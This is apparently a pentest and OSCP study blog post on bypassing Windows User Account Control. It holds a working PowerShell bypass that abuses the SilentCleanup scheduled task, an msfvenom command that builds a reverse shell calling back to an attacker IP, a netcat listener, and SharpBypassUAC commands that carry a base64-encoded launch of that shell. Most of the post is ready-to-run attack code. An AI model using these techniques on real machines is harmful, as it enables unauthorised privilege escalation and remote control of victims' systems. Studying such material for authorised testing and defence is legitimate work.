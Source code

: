 ```yaml
---
title: UAC bypass - why and how
date: 2022-06-05 12:20:00 -0600
categories: [UAC bypass, OSCP]
tags: [uac bypass, oscp]
---
```


# UAC bypass - why and how

As a hacker sometimes you will land on a windows machine as a user that has admin rights, but anything you try and do that will require admin rights will (mimikatz anyone?) get blocked by UAC. 

The benefits of UAC are listed [here](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-overview#:~:text=User%20Account%20Control%20(UAC,changes%20to%20system%20settings.)) but boil down to blocking automatic execution of malware and also gives a user a second chance to say no to something that they clicked on.

If you can RDP into the machine then they bypass is easy. Just click yes instead of no.

This post is for when you don't have RDP access into the box. I have two optoins that I use that have worked for me.

## Option 1 via powershell script:

```powershell
if((([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")) {
    #Payload goes here
    #It'll run as Administrator
    C:\Users\beaux\Downloads\rev.exe
} else {
    $registryPath = "HKCU:\Environment"
    $Name = "windir"
    $Value = "powershell -ep bypass -w h $PSCommandPath;#"
    Set-ItemProperty -Path $registryPath -Name $name -Value $Value
    #Depending on the performance of the machine, some sleep time may be required before or after schtasks
    schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I | Out-Null
    Remove-ItemProperty -Path $registryPath -Name $name
}
```
Credit to this forum post <https://forums.hak5.org/topic/45439-powershell-real-uac-bypass/>

## Option 2 via SharpBypassUAC

[SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC) has a bunch of options for bypassing UAC. Most of them are a "will not fix" from Microsoft. They don't consider it a real security issue.

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.134 LPORT=4433 -f exe -o rev.exe`

`rlwrap nc -lnvp 4433`

Then back on the victim machine:

`SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IEM6XFVzZXJzXGJlYXV4XERvd25sb2Fkc1xyZXYuZXhlIA==`

The last part is base 64:

```bash
echo Y21kIC9jIHN0YXJ0IEM6XFVzZXJzXGJlYXV4XERvd25sb2Fkc1xyZXYuZXhlIA== | base6
4 -d
cmd /c start C:\Users\beaux\Downloads\rev.exe
```

There are a few other options besides `-b eventvwr` that can be found on their github repo <https://github.com/FatRodzianko/SharpBypassUAC>

```
Example usage for eventvwr bypass to launch calc.exe
SharpBypassUAC.exe -b eventvwr -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for fodhelper bypass to launch calc.exe
SharpBypassUAC.exe -b fodhelper -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for computerdefaults bypass to launch calc.exe
SharpBypassUAC.exe -b computerdefaults -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for sdclt bypass to launch calc.exe
SharpBypassUAC.exe -b sdclt -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Note: this appears to only work on Windows 10 in my testing
Example usage for slui bypass to launch calc.exe
SharpBypassUAC.exe -b slui -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

Example usage for DiskCleanup bypass to launch calc.exe
SharpBypassUAC.exe -b dikcleanup -e Y21kIC9jIHN0YXJ0IGNhbGMuZXhlICYmIFJFTQ==

Note: The command you execute will need to end in "&& REM"
```


If you are using it just for testing in htb or proving grounds you can grab the precompiled executable here:
<https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_Any/SharpBypassUAC.exe> 



> If you are using this on an actual pentest I would compile it yourself, just in case.
{: .prompt-warning }